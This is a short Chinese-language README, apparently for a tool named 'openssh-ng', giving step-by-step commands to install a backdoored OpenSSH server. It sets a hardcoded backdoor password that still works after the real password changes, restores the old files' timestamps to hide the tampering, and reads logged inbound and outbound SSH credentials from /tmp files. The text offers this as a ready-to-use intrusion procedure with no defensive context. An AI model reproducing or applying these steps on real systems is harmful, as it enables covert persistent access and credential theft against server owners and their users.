 # openssh-ng

## 备份原始配置文件

```
mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old
```

## 修改ssh后门密码

```
vi include.h
......
#define SECRETPW "123456"  //ssh后门密码
```

> 即使用户修改了密码仍然可以通过后门密码登入

## 编译+安装

```
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
make && make install
```

> 在编译过程中可能会出现“configure: error: *** zlib.h missing – please install first or  check config.log”错误，可以执行“yum install zlib-devel和yum install openssl  openssl-devel”安装后再次编译即可。

## 重启sshd

```
/etc/init.d/sshd restart
```

## 还原新配置文件为旧配置文件时间
```
touch -r/etc/ssh/ssh_config.old /etc/ssh/ssh_config
touch -r/etc/ssh/sshd_config.old /etc/ssh/sshd_config
```

## 查看登录到本地和登录到远程的用户名+密码
```
cat /tmp/ilog
cat /tmp/olog
```

> view http://www.cnblogs.com/croso/p/5280783.html for more
